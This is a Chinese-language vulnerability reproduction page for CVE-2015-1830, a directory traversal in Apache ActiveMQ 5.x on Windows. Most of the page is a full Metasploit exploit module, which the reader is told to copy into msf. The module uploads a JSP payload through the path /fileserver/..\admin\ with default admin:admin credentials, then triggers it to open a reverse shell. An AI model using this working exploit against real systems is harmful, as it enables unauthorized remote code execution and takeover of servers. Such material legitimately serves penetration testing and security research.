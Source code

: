 <h1>（CVE-2015-1830）ActiveMQ 路径遍历导致未经身份验证的rce</h1>
<h2>一、漏洞简介</h2>
<p>Windows 5.11.2之前的Apache ActiveMQ 5.x中blob消息的文件服务器上载/下载功能中的目录遍历漏洞允许远程攻击者通过未指定的向量在任意目录中创建JSP文件。</p>
<h2>二、漏洞影响</h2>
<p>ActiveMQ 5.11.1</p>
<h2>三、复现过程</h2>
<h3>msf poc</h3>
<blockquote>
<p>直接在msf里面搜索就行了，如果没有请更新msf版本，或者手动复制下面的脚本到msf目录下。</p>
</blockquote>
<pre><code>##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule &lt; Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::HttpClient

  def initialize(info = {})
    super(update_info(info,
      'Name'           =&gt; 'Apache ActiveMQ 5.x-5.11.1 Directory Traversal Shell Upload',
      'Description'    =&gt; %q{
        This module exploits a directory traversal vulnerability (CVE-2015-1830) in Apache
        ActiveMQ 5.x before 5.11.2 for Windows.

        The module tries to upload a JSP payload to the /admin directory via the traversal
        path /fileserver/..\\admin\\ using an HTTP PUT request with the default ActiveMQ
        credentials admin:admin (or other credentials provided by the user). It then issues
        an HTTP GET request to /admin/&lt;payload&gt;.jsp on the target in order to trigger the
        payload and obtain a shell.
      },
      'Author'          =&gt;
        [
          'David Jorm',     # Discovery and exploit
          'Erik Wynter'     # @wyntererik - Metasploit
        ],
      'References'     =&gt;
        [
          [ 'CVE', '2015-1830' ],
          [ 'EDB', '40857'],
          [ 'URL', 'https://activemq.apache.org/security-advisories.data/CVE-2015-1830-announcement.txt' ]
        ],
      'Privileged'     =&gt; false,
      'Platform'    =&gt; %w{ win },
      'Targets'     =&gt;
        [
          [ 'Windows Java',
            {
              'Arch' =&gt; ARCH_JAVA,
              'Platform' =&gt; 'win'
            }
          ],
        ],
      'DisclosureDate' =&gt; '2015-08-19',
      'License'        =&gt; MSF_LICENSE,
      'DefaultOptions'  =&gt; {
        'RPORT' =&gt; 8161,
        'PAYLOAD' =&gt; 'java/jsp_shell_reverse_tcp'
        },
      'DefaultTarget'  =&gt; 0))

    register_options([
      OptString.new('TARGETURI', [true, 'The base path to the web application', '/']),
      OptString.new('PATH',      [true, 'Traversal path', '/fileserver/..\\admin\\']),
      OptString.new('USERNAME', [true, 'Username to authenticate with', 'admin']),
      OptString.new('PASSWORD', [true, 'Password to authenticate with', 'admin'])
    ])
  end

  def check
    print_status("Running check...")
    testfile = Rex::Text::rand_text_alpha(10)
    testcontent = Rex::Text::rand_text_alpha(10)

    send_request_cgi({
      'uri'       =&gt; normalize_uri(target_uri.path, datastore['PATH'], "#{testfile}.jsp"),
      'headers'     =&gt; {
        'Authorization' =&gt; basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
        },
      'method'    =&gt; 'PUT',
      'data'      =&gt; "&lt;% out.println(\"#{testcontent}\");%&gt;"
    })

    res1 = send_request_cgi({
      'uri'       =&gt; normalize_uri(target_uri.path,"admin/#{testfile}.jsp"),
      'headers'     =&gt; {
        'Authorization' =&gt; basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
        },
      'method'    =&gt; 'GET'
    })

    if res1 &amp;&amp; res1.body.include?(testcontent)
      send_request_cgi(
        opts = {
          'uri'       =&gt; normalize_uri(target_uri.path,"admin/#{testfile}.jsp"),
          'headers'     =&gt; {
            'Authorization' =&gt; basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
            },
          'method'    =&gt; 'DELETE'
        },
        timeout = 1
      )
      return Exploit::CheckCode::Vulnerable
    end

    Exploit::CheckCode::Safe
  end

  def exploit
    print_status("Uploading payload...")
    testfile = Rex::Text::rand_text_alpha(10)
    vprint_status("If upload succeeds, payload will be available at #{target_uri.path}admin/#{testfile}.jsp") #This information is provided to allow for manual execution of the payload in case the upload is successful but the GET request issued by the module fails.

    send_request_cgi({
      'uri'       =&gt; normalize_uri(target_uri.path, datastore['PATH'], "#{testfile}.jsp"),
      'headers'     =&gt; {
        'Authorization' =&gt; basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
        },
      'method'    =&gt; 'PUT',
      'data'      =&gt; payload.encoded
    })

    print_status("Payload sent. Attempting to execute the payload.")
    res = send_request_cgi({
      'uri'       =&gt; normalize_uri(target_uri.path,"admin/#{testfile}.jsp"),
      'headers'     =&gt; {
        'Authorization' =&gt; basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
      },
      'method'    =&gt; 'GET'
    })
    if res &amp;&amp; res.code == 200
      print_good("Payload executed!")
    else
      fail_with(Failure::PayloadFailed, "Failed to execute the payload")
    end
  end
 end</code></pre>

